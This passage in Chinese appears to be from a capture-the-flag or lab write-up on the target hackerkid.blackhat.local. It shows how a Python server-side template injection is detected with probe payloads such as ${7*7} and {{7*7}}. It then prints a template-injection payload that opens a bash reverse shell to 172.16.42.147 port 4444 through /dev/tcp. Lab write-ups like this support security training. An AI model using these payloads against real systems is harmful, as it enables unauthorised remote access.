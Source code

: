 如果看到错误，并且返回结果里有我们随便定义的服务端不存在的字符串`abcxyz`，那很有可能是模板触发的报错，可能存在模板注入漏洞。**返回结果可以判断是python的模板**。



- **通用探测payload2**

```
${7*7},{{7*7}}
```



![](../images/pics/打靶/26.jpg)

可以确定是双层的payload执行了{{7*7}}

也就是如下url就行了

```
http://hackerkid.blackhat.local:9999/?name=${{7*7}}
```



- **注入反弹shell的代码**

  发现报错

```
{% import os %}{{os.system('bash -c "bash -i >& /dev/tcp/172.16.42.147/4444 0>&1"')}}
```

![](../images/pics/打靶/27.jpg)
